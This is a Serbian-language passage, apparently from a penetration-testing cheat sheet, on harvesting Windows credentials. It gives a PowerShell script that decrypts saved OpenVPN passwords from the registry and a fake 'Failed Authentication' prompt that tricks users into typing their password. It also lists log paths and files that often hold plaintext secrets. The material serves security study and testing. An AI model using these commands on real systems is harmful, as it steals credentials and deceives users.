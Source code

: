 ### OpenVPN kredencijali

```csharp
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}

foreach ($item in $items)
{
$encryptedbytes=$item.'auth-data'
$entropy=$item.'entropy'
$entropy=$entropy[0..(($entropy.Length)-2)]

$decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
$encryptedBytes,
$entropy,
[System.Security.Cryptography.DataProtectionScope]::CurrentUser)

Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```

### Zapisi

```bash
# IIS
C:\inetpub\logs\LogFiles\*

#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

### Zatražite pristupne podatke

Uvek možete **zatražiti od korisnika da unese svoje pristupne podatke ili čak pristupne podatke drugog korisnika** ako smatrate da ih može znati (primetite da je **direktno traženje** pristupnih podataka od klijenta zaista **rizično**):

```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```

### **Moguća imena datoteka koja sadrže akreditive**

Poznate datoteke koje su nekada sadržavale **šifre** u **čistom tekstu** ili **Base64**.

```bash
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
vnc.ini, ultravnc.ini, *vnc*
web.config
php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
SiteList.xml #McAfee
ConsoleHost_history.txt #PS-History
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
```